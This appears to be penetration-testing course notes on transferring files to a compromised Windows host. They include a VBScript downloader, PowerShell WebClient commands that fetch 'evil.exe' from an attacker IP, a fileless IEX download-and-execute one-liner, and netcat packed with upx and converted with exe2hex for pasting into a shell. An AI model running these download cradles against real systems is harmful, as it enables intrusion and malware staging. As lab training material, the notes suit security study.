 # Windows Downloads

## Windows Downloads Using Scripting Languages

Creating a VBScript HTTP downloader script

```vba
echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts >> wget.vbs
echo  Err.Clear >> wget.vbs
echo  Set http = Nothing >> wget.vbs
echo  Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo  If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
echo  If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs
echo  If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo  http.Open "GET", strURL, False >> wget.vbs
echo  http.Send >> wget.vbs
echo  varByteArray = http.ResponseBody >> wget.vbs
echo  Set http = Nothing >> wget.vbs
echo  Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo  Set ts = fs.CreateTextFile(StrFile, True) >> wget.vbs
echo  strData = "" >> wget.vbs
echo  strBuffer = "" >> wget.vbs
echo  For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo  ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1, 1))) >> wget.vbs
echo  Next >> wget.vbs
echo  ts.Close >> wget.vbs
```

We can run this (with cscript) to download files from our Kali machine:

```bash
C:\Users\Offsec> cscript wget.vbs http://10.11.0.4/evil.exe evil.exe
```

## Windows Downloads using PowerShell

The example below shows an implementation of a downloader script using the _System.Net.WebClient_ PowerShell class:

```bash
C:\Users\Offsec> echo $webclient = New-Object System.Net.WebClient >>wget.ps1
C:\Users\Offsec> echo $url = "http://10.11.0.4/evil.exe" >>wget.ps1
C:\Users\Offsec> echo $file = "new-exploit.exe" >>wget.ps1
C:\Users\Offsec> echo $webclient.DownloadFile($url,$file) >>wget.ps1
```

we can run it using this:

```bash
C:\Users\Offsec> powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1
```

We can also execute this script as a one-liner as shown below:

```bash
C:\Users\Offsec> powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://10.11.0.4/evil.exe', 'new-exploit.exe')
```

## Windows Download and Execution from hosted remote file

To demonstrate this, we will create a simple PowerShell script on our Kali machine (Listing 20):

```bash
kali@kali:/var/www/html$ sudo cat helloworld.ps1 
Write-Output "Hello World"
```

Next, we will run the script with the following command on our compromised Windows machine:

```bash
C:\Users\Offsec> powershell.exe IEX (New-Object System.Net.WebClient).DownloadString('http://10.11.0.4/helloworld.ps1')
Hello World
```

The content of the PowerShell script was downloaded from our Kali machine and successfully executed without saving it to the victim hard disk.

## Windows Downloads with exe2hex and PowerShell

We'll start by locating and inspecting the nc.exe file on Kali Linux.

```bash
kali@kali:~$ locate nc.exe | grep binaries
/usr/share/windows-resources/binaries/nc.exe

kali@kali:~$ cp /usr/share/windows-resources/binaries/nc.exe .

kali@kali:~$ ls -lh nc.exe
-rwxr-xr-x 1 kali kali 58K Sep 18 14:22 nc.exe
```

Although the binary is already quite small, we will reduce the file size to show how it's done. We will use upx, an executable packer (also known as a PE compression tool):

```bash
kali@kali:~$ upx -9 nc.exe
                       Ultimate Packer for eXecutables
                          Copyright (C) 1996 - 2018
UPX 3.95        Markus Oberhumer, Laszlo Molnar & John Reiser   Aug 26th 2018

        File size         Ratio      Format      Name
   --------------------   ------   -----------   -----------
     59392 ->     29696   50.00%    win32/pe     nc.exe
Packed 1 file.

kali@kali:~$ ls -lh nc.exe
-rwxr-xr-x 1 kali kali 29K Sep 18 14:22 nc.exe
```

We'll use the excellent _exe2hex_ tool for the conversion process:

```bash
kali@kali:~$ exe2hex -x nc.exe -p nc.cmd
[*] exe2hex v1.5.1
[+] Successfully wrote (PoSh) nc.cmd
```

When we copy and paste this script into a shell on our Windows machine and run it, we can see that it does.
